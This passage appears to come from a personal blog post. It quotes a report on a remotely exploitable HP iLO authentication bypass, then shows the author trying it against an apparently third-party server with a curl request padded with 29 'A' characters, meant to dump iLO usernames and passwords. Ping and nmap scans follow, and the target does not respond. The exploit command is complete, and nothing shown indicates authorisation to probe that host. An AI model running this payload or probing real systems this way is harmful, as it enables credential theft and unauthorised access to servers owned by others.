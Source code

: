 > Last year, a trio of security researchers discovered such a vulnerability, which they say it can be exploited remotely, via an Internet connection, putting all iLO servers exposed online at risk.
>
> The vulnerability is an authentication bypass that allows attackers access to HP iLO consoles. Researchers say this access can later be used to extract cleartext passwords, execute malicious code, and even replace iLO firmware.
>
> But besides being a remotely exploitable flaw, this vulnerability is also as easy as it gets when it comes to exploitation, requiring a cURL request and 29 letter "A" characters

Wow! So, all we need to do to get a list of users and passwords for iLO is make a request to the iLO server's API and send it a bunch of "A"s. Let's give it a go:

```batch
C:\>curl -i -k -H "Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA" https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Damn, nothing. Just to make sure, let's test a normal request to iLO that should be actively rejected by the server:

```batch
C:\>curl -i -k https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Hmmm, okay - nothing again. We're expecting to see some JSON formatted data. Let's just check that we can see the server by pinging it:

```powershell
PS C:\> ping xxxxxxxx-akl-nz-lo.reivernet.com
Pinging xxxxxxxx-akl-nz-lo.reivernet.com [203.167.xxx.xxx] with 32 bytes of data:
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.

Ping statistics for 203.167.xxx.xxx:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
```

Okay, no ping response. Maybe they've moved the iLO port and told the server to not respond to ping requests. Let's run a quick nmap scan:

```powershell
PS C:\> nmap -O xxxxxxxx-akl-nz-lo.reivernet.com

Starting Nmap 7.80 ( https://nmap.org ) at 2019-08-25 23:15 New Zealand Standard Time
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 5.41 seconds
```

Hmmm, either this server's not accessible externally any more, or they've done a good job of making it appear dark online.
